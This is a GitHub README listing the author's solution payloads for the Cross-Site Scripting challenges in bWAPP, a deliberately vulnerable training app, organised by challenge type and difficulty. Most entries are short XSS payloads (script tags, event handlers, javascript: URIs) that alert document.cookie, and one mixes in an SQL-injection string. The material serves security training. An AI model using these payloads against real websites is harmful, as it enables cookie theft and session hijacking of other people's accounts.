 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

# XSS - Reflected (GET)(LOW)
``` Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname) ```

# XSS - Reflected (GET)(MEDIUM) 
``` Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname) ```

# XSS - Reflected (GET)(High)
``` NYF ```

# XSS - Reflected (POST)(Low)
```Payload-<script>alert(document.cookie)</script>```

# XSS - Reflected (POST)(Medium)
```Payload-<svg onload=alert(document.cookie)>```

# XSS - Reflected (POST)(High)
```NYF```

# XSS - Reflected (JSON)(Low)
```Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>```

# XSS - Reflected (JSON)(Medium)
```Payload – NYF```

# XSS - Reflected (JSON)(High)
```Payload – NYF```

# XSS - Reflected (AJAX/JSON)(Low/Medium)
```Payload - <marquee onclick=alert(1)>Click!!!</marquee>```

# XSS - Reflected (AJAX/JSON)(High)
```Payload – NYF```

# XSS - Reflected (AJAX/XML)(Low/Medium)
```Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;```

# XSS - Reflected (AJAX/XML)(High)
```Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>```

# XSS - Reflected (BackButton)(Low)
```Payload - ‘-alert(document.cookie)-’```

# XSS - Reflected (BackButton)(Medium)
```Payload – javascript:alert(document.cookie)```

# XSS - Reflected (BackButton)(High)
```Payload – Same as medium```
```Javascript:alert(document.cookie)```

# XSS - Reflected (CustomHeader)(Low)
```Payload- bWAPP:<script>alert(document.cookie)</script>```

# XSS - Reflected (CustomHeader)(Medium)
```Payload – bWAPP:<marquee onclick=alert(document.cookie)>click to win 1$</marquee>```

# XSS - Reflected (CustomHeader)(High)
```Paylaod - NYF```

# XSS - Reflected (EVAL)(Low)
```Payload – Date=alert(Document.cookie)```

# XSS - Reflected (EVAL)(Medium)
```Payload – Date=alert(document.cookie)```

# XSS - Reflected (EVAL)(High)
```Payload – NYF```

# XSS - Reflected (HREF)(Low)
```Payload - <marquee onclick=alert(document.cookie)>click to win 1$</marquee>```

# XSS - Reflected (HREF)(Medium)
```Payload - NYF```

# XSS - Reflected (HREF)(High)
```Payload – NYF```

# XSS - Reflected (Login Form)(Low)
```Payload – ‘ or 1=1; <script>alert(document.cookie)</script>```





